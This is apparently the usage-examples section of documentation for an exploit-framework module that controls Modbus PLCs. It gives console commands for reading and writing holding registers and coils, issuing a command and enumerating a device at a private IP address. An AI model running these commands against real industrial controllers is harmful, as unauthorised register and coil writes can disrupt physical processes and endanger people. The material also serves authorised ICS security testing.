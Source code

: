 ### Examples

#### Read Holding Registers
```bash
use exploits/plcs/modbus/modbus_device_control
set target 192.168.1.10
set operation read
set register_type holding_registers
set address 0
set count 10
run
```

#### Write to Holding Register
```bash
use exploits/plcs/modbus/modbus_device_control
set target 192.168.1.10
set operation write
set register_type holding_registers
set address 0
set value 123
run
```

#### Write Multiple Coils
```bash
use exploits/plcs/modbus/modbus_device_control
set target 192.168.1.10
set operation write
set register_type coils
set address 0
set values true,false,true,false
run
```

#### Execute Command
```bash
use exploits/plcs/modbus/modbus_device_control
set target 192.168.1.10
set operation command
set register_type coils
set address 0
set value true
run
```

#### Enumerate Device
```bash
use exploits/plcs/modbus/modbus_device_control
set target 192.168.1.10
set operation enumerate
run
```
